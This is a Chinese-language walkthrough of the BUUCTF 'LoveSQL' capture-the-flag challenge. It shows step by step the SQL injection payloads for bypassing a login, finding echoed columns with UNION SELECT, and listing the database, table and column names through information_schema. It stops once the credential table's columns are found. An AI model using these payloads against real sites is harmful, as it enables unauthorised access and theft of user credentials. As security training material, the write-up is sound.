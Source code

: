 ## BUUCTF  [极客大挑战 2019]LoveSQL1
试用万能公式

```python
name
1' or 1=1 #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732201015645-f8e90696-813b-4f32-89ce-1677a2a4955d.png)

得到了一个可以回显页面  

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732201103982-801c98e0-08aa-4df9-b049-dd0f17f603f2.png)

利用万能用户名admin 加上在密码处payload寻找可以回显的位置

```sql
1' union select 1,2,3#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732201300296-d0385d12-d293-4dfd-ae78-88038b8469df.png)

于是我们就可以利用可回显位置爆出想要的数据

爆出数据库的payload

```sql
1' union select 1,2,database()#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732201473739-518bdf58-e6bb-4249-83fd-e1f9f46d3e5b.png)

得到数据库名为'geek' 接着爆出表名

payload

```sql
1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732201907715-5fa5ce99-4d89-4948-b76a-cdea8e9ae97a.png)

得到了数据库geek下有两张表分别是 'geekuser'  'l0ve1ysq1'

根据题目名字很有可能在'l0ve1ysq1'这张表里

接着构建payload

```sql
1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1')#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732202285922-82a6ec1f-38a0-4e1d-b6f3-e53e3a6e3a9e.png)

得到三个字段名password id username
